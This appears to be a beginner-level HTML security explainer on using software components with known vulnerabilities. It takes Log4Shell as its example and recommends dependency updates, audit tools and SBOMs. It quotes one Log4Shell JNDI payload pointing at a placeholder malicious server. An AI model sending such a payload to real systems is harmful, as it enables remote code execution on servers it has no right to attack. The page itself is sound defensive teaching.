 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  
</head>
<body>

  <h1>🔍 Using Components with Known Vulnerabilities – A Hidden Security Risk</h1>

  <h2>👶 For Beginners: What Does This Mean?</h2>
  <p>
    Imagine building a house with cracked bricks—it might look fine, but over time, those cracks could lead to serious structural failures. Similarly, using outdated or vulnerable software components in applications can create security loopholes that attackers exploit.
  </p>

  <p>
    💡 Many web applications rely on third-party libraries, frameworks, and plugins. If these components have known security flaws, attackers can exploit them to compromise the entire system.
  </p>

  <h2>🔍 Technical Explanation of the Risk</h2>
  <p>
    Modern applications often use:
  </p>

  <ul>
    <li>✔️ Open-source libraries (e.g., jQuery, Lodash, Log4j)</li>
    <li>✔️ Third-party frameworks (e.g., React, Django, Spring Boot)</li>
    <li>✔️ Plugins & Dependencies (e.g., WordPress plugins, npm modules)</li>
  </ul>

  <div class="highlight">
    🚨 <strong>The Risk?</strong> If these components contain known security vulnerabilities and are not updated, attackers can:
  </div>

  <ul>
    <li>🔓 Exploit software bugs to gain unauthorized access.</li>
    <li>💀 Execute remote code by leveraging insecure libraries.</li>
    <li>🚀 Perform SQL Injection, XSS, RCE, and other attacks through vulnerable dependencies.</li>
    <li>📉 Crash or disrupt services, leading to downtime and reputational damage.</li>
  </ul>

  <h2>🚨 Real-World Example: Log4Shell Vulnerability (CVE-2021-44228)</h2>
  <h3>🔍 What Happened?</h3>
  <p>
    Log4j, a popular Java logging library, had a critical vulnerability known as Log4Shell, which allowed Remote Code Execution (RCE) just by logging a specially crafted string.
  </p>

  <p><strong>💀 How an Attacker Exploited It</strong></p>
  <ol>
    <li>The attacker sends a malicious payload to a vulnerable application:</li>
    <pre><code>${jndi:ldap://malicious-server.com/exploit}</code></pre>
    <li>The vulnerable Log4j component processes the string and executes remote code.</li>
    <li>The attacker gains full control over the server!</li>
  </ol>

  <div class="highlight">
    💡 <strong>Key Takeaway:</strong> Even widely used libraries can have severe security flaws—always update dependencies!
  </div>

  <h2>🛡️ How to Prevent This Risk?</h2>

  <h3>✔️ 1. Keep Dependencies Up-to-Date</h3>
  <ul>
    <li>✅ Regularly update libraries, frameworks, and third-party components.</li>
    <li>✅ Use dependency management tools to track vulnerabilities:
      <ul>
        <li>🔹 <strong>npm audit</strong> (for Node.js)</li>
        <li>🔹 <strong>pip-audit</strong> (for Python)</li>
        <li>🔹 <strong>OWASP Dependency-Check</strong> (for Java)</li>
      </ul>
    </li>
  </ul>

  <h3>✔️ 2. Use Vulnerability Scanners</h3>
  <ul>
    <li>✅ Tools like Black Duck, Snyk, Dependabot, and GitHub Security Alerts can detect vulnerable dependencies.</li>
  </ul>

  <h3>✔️ 3. Remove Unused Dependencies</h3>
  <ul>
    <li>✅ If a package is not actively used, remove it to reduce the attack surface.</li>
  </ul>

  <h3>✔️ 4. Apply Security Patches Immediately</h3>
  <ul>
    <li>✅ When a vulnerability is disclosed, apply patches or switch to a secure alternative as soon as possible.</li>
  </ul>

  <h3>✔️ 5. Follow Secure Development Practices</h3>
  <ul>
    <li>✅ Adopt a Software Bill of Materials (SBOM) to track all components used in your software.</li>
    <li>✅ Rely on trusted sources when downloading libraries—avoid unofficial or modified versions.</li>
  </ul>

  <h2>🚀 Final Thoughts</h2>
  <p>
    Using outdated or vulnerable components is like leaving open doors for hackers.
  </p>
  <p>
    💡 Developers must regularly update dependencies, monitor vulnerabilities, and use security tools to detect risks.
  </p>
  <p>
    By adopting proactive security measures, using automated vulnerability scanners, and applying patches swiftly, we can prevent cyber threats before they happen.
  </p>

  <h3>🔐 Stay Secure, Stay Updated!</h3>

</body>
</html>
